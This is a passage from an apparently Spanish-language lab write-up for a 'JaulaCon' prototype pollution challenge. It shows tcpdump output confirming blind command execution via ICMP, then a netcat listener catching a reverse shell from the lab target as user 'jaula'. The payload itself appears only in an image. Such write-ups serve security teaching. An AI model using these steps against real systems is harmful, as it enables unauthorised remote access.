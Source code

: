 Observa la respuesta:
```bash
tcpdump -i eth0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
17:37:57.598873 IP 192.168.1.200 > Tu_IP: ICMP echo request, id 46817, seq 1, length 64
17:37:57.598891 IP Tu_IP > 192.168.1.200: ICMP echo reply, id 46817, seq 1, length 64
17:37:58.600897 IP 192.168.1.200 > Tu_IP: ICMP echo request, id 46817, seq 2, length 64
17:37:58.600911 IP Tu_IP > 192.168.1.200: ICMP echo reply, id 46817, seq 2, length 64
```
Funciono y ya con esto podemos probar a lanzar una **Reverse Shell**.

Abre una **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
```

Configura la **Reverse Shell** en el payload y envía la petición:

<p align="center">
<img src="/assets/images/THL-writeup-jaulaCon/Captura15.png">
</p>

Observa la **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.200] 54800
bash: no se puede establecer el grupo de proceso de terminal (346): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
jaula@JaulaCon:/var/www/html/PrototypePollution-Lab/prototypePoluttion$ whoami
<l/PrototypePollution-Lab/prototypePoluttion$ whoami                    
jaula
```
Estamos dentro.
